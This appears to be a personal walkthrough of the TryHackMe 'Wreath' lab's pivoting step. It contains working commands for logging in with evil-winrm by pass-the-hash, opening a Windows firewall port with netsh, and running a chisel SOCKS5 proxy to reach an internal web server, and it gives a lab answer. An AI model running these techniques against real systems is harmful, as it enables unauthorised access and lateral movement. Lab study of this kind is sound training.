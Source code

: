 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s <chisel_windows.exe directory>
```

2. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=44444
```

3. Download  it from https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz/. #Attacking_Machine 

4. Decompress the .gz file. #Attacking_Machine 

5. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

6. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
./chisel.exe server -p 44444 --socks5
```

7. Install chisel on Kali Linux. #Attacking_Machine 
	1. **Download Chisel Binary**
	    
	    - Visit the official [Chisel GitHub releases page](https://github.com/jpillora/chisel/releases).
	    - Identify the latest version and download the Linux binary:
	        `wget https://github.com/jpillora/chisel/releases/download/v1.9.0/chisel_1.9.0_linux_amd64.gz`
	        
	2. **Uncompress the Binary**
	    
	    - Use `gzip` to extract the file:
	        `gunzip chisel_1.9.0_linux_amd64.gz mv chisel_1.9.0_linux_amd64 chisel chmod +x chisel`
	        
	3. **Move Binary to System Path**
	    
	    - Place it in `/usr/local/bin` so it can be accessed globally:
	        `sudo mv chisel /usr/local/bin`
	        
	4. **Verify Installation**
	    
	    - Check if Chisel is installed correctly:
	        
	        `chisel --help`

8. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:44444 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

9. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

10. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

11. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
